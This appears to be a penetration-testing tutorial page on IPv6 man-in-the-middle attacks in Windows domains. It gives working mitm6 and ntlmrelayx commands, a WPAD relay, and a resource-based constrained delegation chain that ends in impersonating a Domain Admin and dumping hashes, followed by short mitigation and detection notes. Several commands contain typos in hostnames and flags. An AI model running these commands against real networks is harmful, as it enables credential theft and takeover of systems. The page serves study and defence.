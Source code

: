 # MitM IPv6

{% hint style="info" %}
All Windows versions since Windows Vista (including server variants) have IPv6 enabled and prefer it over IPv4. IPv6 attacks abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.
{% endhint %}

## <mark style="color:red;">IPv6 DNS Takeover</mark>

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```
python mitm6.py -i vboxnet0 -d megacorp.local
```

leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## <mark style="color:red;">LDAP Relay</mark>

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](<../../../.gitbook/assets/image (210).png>)

![](<../../../.gitbook/assets/image (207).png>)

#### we can open up the results with firefox

## <mark style="color:red;">MITM6</mark>

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```
mitm6 -d test.local
```

For the second part of our attack, we use ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay like we saw earlier

```
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

In this case, the attack is pretty much the same as the one we saw earlier we juste replaced responder with mitm6 for the obvious reasons previously mentionned.now, another attack is possible through **WPAD serving.** WPAD is a protocol used to ensure all systems in an organization use the same web proxy configuration. Instead of individually modifying configurations on each device connected to a network, WPAD locates a proxy configuration file and applies the configuration automatically. More details about this attack can be found in the references. using ntlmrelayx to also implement this attack, we launch the attack using the following command :

```
ntlmrelayx.py -6 -wh attacker.test.local -tf targets.txt -l loot -socks -debug
```

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

When Windows configured for DHCP boots, it looks for DHCP configuration, and then proxy configuration using WPAD. That way, when the victim computer boots and starts looking for proxy config, the machine account tries to authenticate to us.

```
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```

1. **We set up a man-in-the-middle DHCP server on IPv6 and serve a DNS IPv6 configuration that points to our rogue DNS IPv6 server.**
2. **When the victim uses WPAD to look for a proxy configuration file over DNS, we let it connect to our fake proxy server and then prompt for authentication using a `407 Authentication Required` request.**
3. **We capture and relay the (encrypted) credentials of the machine account to LDAPS on the domain controller (DC).**
4. **We ask the DC over LDAPS to create a new machine account. Active Directory allows any user account, including machine accounts to add 10 machine accounts by default.( NOTE: LDAPS and not LDAP, because creating machines over unencrypted channels is prohibited)**
5. **We now have credentials for a machine account. The reason we create a machine account is that we need access to an account with a Service Principal Name (SPN).**
6. **We now ask the DC to configure resource-based constrained delegation for this new machine account on the victim computer object. For example: the machine account `WS02$` sets the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object `WS02` to allow the newly created machine account to impersonate users on it.**
7. **We request a service ticket using the machine account that was created, where we impersonate a user that has local admin access to our target computer.**
8. **We use the service ticket to access the computer with local admin privileges. The ticket with these privileges is only valid on the target box.**

Now off to the commands :

#### 1st, mitm6 as explained previously (in this case limiting just the attack on the icorp-w10 host but can be fully utilized on others) :

```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```

#### 2nd, ntlmrelayx :

```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```

#### 3rd, we can use `getST.py` from ntlmrelayx, which will do all the S4U2Self an S4U2Proxy magic for us. You will need the latest version of impacket from git to include resource based delegation support. In this example we will be impersonating the user `admin`, which is a member of the `Domain Admins` group and thus has administrative access on `ICORP-W10`

```
getST.py -spn cifs/icrop-w10.internal.corp internal.corp/account_created_by_previous_cmd -impersonate admin
```

Once that done, you should've the keberos service ticket for the user admin saved in admin.ccache file and is valid for cifs/icorp-w10.internal.corp. This only lets us impersontate this user to this specific host, not to other hosts in the network. With this ticket we can do whatever we want on the target host for, for example dumping hashes with secretdumps:

```
export KRB5CCNAME=admin.ccache
secretsdump.py -k -no-pass icrop-w10.internal.corp
```

The attacker now has full control over the victim workstation.

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation" %}

{% embed url="https://chryzsh.github.io/relaying-delegation" %}

## <mark style="color:red;">Mitigation</mark>

* Consider NTLM relay mitigations.
* Disable IPv6 on all systems if you are not using any related network services.
* If using IPv6, configure the DNS settings on all systems. (broadcast DHCPv6 will make DNS take over possible).
* Disable `Proxy Auto detection` via group policy to prevent WPAD attacks.
* If your company uses a proxy configuration file internally (PAC file) it is recommended to explicitly configure the PAC url instead of relying on WPAD to detect it automatically.

## <mark style="color:red;">Detection</mark>

* Monitor the traffic for unknown DHCPv6 / DNS servers.
